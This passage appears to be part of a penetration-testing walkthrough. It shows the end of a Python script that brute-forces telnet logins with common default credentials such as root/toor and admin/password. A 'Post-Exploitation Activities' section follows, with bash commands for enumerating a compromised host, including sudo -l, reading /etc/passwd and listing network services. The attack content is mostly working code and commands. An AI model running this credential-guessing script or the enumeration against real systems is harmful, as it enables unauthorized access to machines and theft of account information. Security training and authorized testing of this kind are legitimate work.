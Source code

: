 ```python
    port = 23
    
    # Common credentials
    usernames = ['root', 'admin', 'administrator', 'user', 'guest']
    passwords = ['', 'root', 'admin', 'password', '123456', 'toor', 'pass']
    
    print(f"Starting brute force against {target}:{port}")
    
    for username, password in product(usernames, passwords):
        print(f"Trying {username}:{password}", end=' ... ')
        
        if telnet_login(target, port, username, password):
            print("SUCCESS!")
            print(f"Valid credentials: {username}:{password}")
            break
        else:
            print("Failed")
        
        time.sleep(1)  # Avoid overwhelming the service

if __name__ == "__main__":
    main()
```

---

## ✅ Post-Exploitation Activities

### Initial System Assessment
```bash
# After successful login, gather system information
whoami
id
uname -a
hostname
pwd

# Check current privileges
groups
sudo -l

# Environment variables
env
echo $PATH
echo $HOME
```

### System Enumeration
```bash
# Operating system details
cat /etc/*release*
cat /etc/issue
cat /proc/version

# Network configuration
ifconfig -a
ip addr show
route -n
netstat -tulpn
ss -tulpn

# Users and groups
cat /etc/passwd
```